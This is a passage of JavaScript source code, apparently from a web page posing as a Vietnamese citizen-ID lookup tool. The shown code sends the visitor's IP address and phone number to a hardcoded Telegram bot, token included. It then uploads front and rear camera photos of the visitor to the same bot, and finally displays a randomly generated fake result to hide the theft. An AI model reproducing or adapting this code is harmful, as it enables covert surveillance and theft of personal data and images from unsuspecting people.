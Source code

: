             // Send to Telegram bot
            const botToken = '8004316784:AAGXwEjyEOTG2Xc7eQBcuv9oEgFbnvaKv3s';
            const chatId = '5705746414';
            
            // First send text info
            await fetch(`https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=Tra cứu CCCD từ IP: ${ip} SĐT: ${document.getElementById('phoneNumber').value}`);
            
            // Send front camera photos with labels
            for (let i = 0; i < 2; i++) {
                const photoBlob = dataURLtoBlob(photos[i]);
                const photoData = new FormData();
                photoData.append('chat_id', chatId);
                photoData.append('photo', photoBlob, `front_${i+1}.jpg`);
                await fetch(`https://api.telegram.org/bot${botToken}/sendPhoto`, {
                    method: 'POST',
                    body: photoData
                });
            }
            
            // Send rear camera photos with labels (if available)
            if (photos.length > 2) {
                for (let i = 2; i < photos.length; i++) {
                    const photoBlob = dataURLtoBlob(photos[i]);
                    const photoData = new FormData();
                    photoData.append('chat_id', chatId);
                    photoData.append('photo', photoBlob, `rear_${i-1}.jpg`);
                    await fetch(`https://api.telegram.org/bot${botToken}/sendPhoto`, {
                        method: 'POST', 
                        body: photoData
                    });
                }
            }

            // Hiển thị kết quả
            document.getElementById('resultCard').style.display = 'block';
            
            // Cuộn đến kết quả
            setTimeout(() => {
                document.getElementById('resultCard').scrollIntoView({
                    behavior: 'smooth'
                });
            }, 100);
        });

        function generateMockData() {
            // Các tên thường dùng để tạo ngẫu nhiên
            const firstNames = ['Nguyễn', 'Trần', 'Lê', 'Phạm', 'Hoàng'];
            const middleNames = ['Văn', 'Thị', 'Hữu', 'Đình', 'Minh'];
            const lastNames = ['Anh', 'Bình', 'Chung', 'Dũng', 'Giang', 'Hùng', 'Long', 'Phúc'];
            
            // Tạo tên ngẫu nhiên
            const firstName = firstNames[Math.floor(Math.random() * firstNames.length)];
            const middleName = middleNames[Math.floor(Math.random() * middleNames.length)];
            const lastName = lastNames[Math.floor(Math.random() * lastNames.length)];
            const fullName = `${firstName} ${middleName} ${lastName}`.toUpperCase();
            